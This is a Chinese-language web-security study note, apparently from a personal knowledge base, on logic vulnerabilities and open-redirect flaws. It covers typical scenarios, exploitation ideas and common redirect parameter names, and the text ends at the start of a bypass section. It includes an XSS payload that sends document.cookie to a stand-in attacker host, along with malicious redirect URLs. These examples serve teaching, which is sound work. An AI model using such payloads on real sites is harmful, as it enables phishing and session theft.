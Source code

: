```yaml
---
title: 2. 逻辑漏洞
tags:
  - web安全
creation date: 2024-03-15
done: true
---
```

> [!note]
> **逻辑漏洞**：因程序员的思维逻辑的不足，导致编写程序产生的漏洞。与传统漏洞不同点是，逻辑漏洞是用合法的方式就可达成破坏的效果。这类漏洞一般的防护手段或者设备无法阻止，漏洞扫描器也难以发现。  
> **常见场景**：大部分出现在互联网等大企业，特别是业务越多，逻辑越混乱出现的可能性就越大。逻辑漏洞更需要的是细心、对业务的熟悉程度，以及广泛的知识面。  

# 1. url 跳转漏洞  
---
也被称为开放重定向漏洞，可以跳转到任意指定的 url 。  
服务器端未对传入的跳转 url 变量进行检查和过滤。攻击者可以利用该漏洞来伪造 URL，引导用户跳转到恶意站点，进行钓鱼、诱导下载等攻击行为。  
常出现于接受用户输入并将其用于构建 URL 的场景，例如：  
- 用户身份验证和授权：在用户身份验证和授权的过程中，URL 参数通常用于跳转到另一个页面。例如，在某些网站上，用户必须在登录页面上提供凭据，然后被重定向到其他页面。攻击者可能会利用这种机制，将受害者重定向到一个看起来合法的页面，以窃取其登录凭据。  
- 第三方应用程序：在某些情况下，Web 应用程序可能允许第三方应用程序访问其API，并使用URL参数跳转到其他页面。如果未正确验证和授权第三方应用程序，攻击者可以通过构建恶意 URL 来重定向用户到恶意站点。  
类似的跳转类型：`http://example.com/login.php?redirect=http:http//attacker.com/evil.php`  
攻击者可以通过将恶意站点URL（如 `http://attacker.com/evil.php`）放入`redirect`参数中，使得用户在登录成功后跳转到攻击者的站点上，从而进行一些恶意操作。攻击者还可以利用一些其他技术手段，如URL缩短服务、欺骗用户等，更好地利用该漏洞进行攻击。  

## **1.1 利用思路**  
- 钓鱼网站  
- 配合 xss 漏洞  
    攻击者可以通过 URL 漏洞构造出一个恶意的 URL ，并将其嵌入到一个页面中。当用户点击该链接时，可能会触发XSS漏洞，从而导致恶意代码被执行，例如窃取用户的敏感信息、注入恶意代码等。  
    构造URL如下：  

    ```Plain Text
    https://www.example.com/login.php?redirect_url=<script>location.href='https://attacker.com/steal.php?cookie='+document.cookie</script>  
    ```

    当用户点击该链接进行登录时，会被重定向到一个恶意站点，并将用户的Cookie信息传输到攻击者的服务器上，攻击者可以通过获取到的Cookie信息进行后续的攻击。  

- 配合 csrf 漏洞  
- 配合浏览器漏洞：CVE-2018-8174 等  

## 1.2 常见的 bypass 方法  
```ad-note
Url 跳转常用参数：  
redirect, url, redirectUrl, callback, return_url, toUrl, ReturnUrl, fromUrl, redUrl, request, redirect_to, redirect_url, jump, jump_to, target, to, goto, link, linkto, domain, oauth_callback 等。  
```

假设存在如下情况：    
- `www.xxx.com`：存在url跳转漏洞的网站  
    - `redirect`是`www.xxx.com`网站的跳转页面  
    - `login.xxx.com`是该网站的登录页面  
- `www.attacker.com`：攻击者的网站  
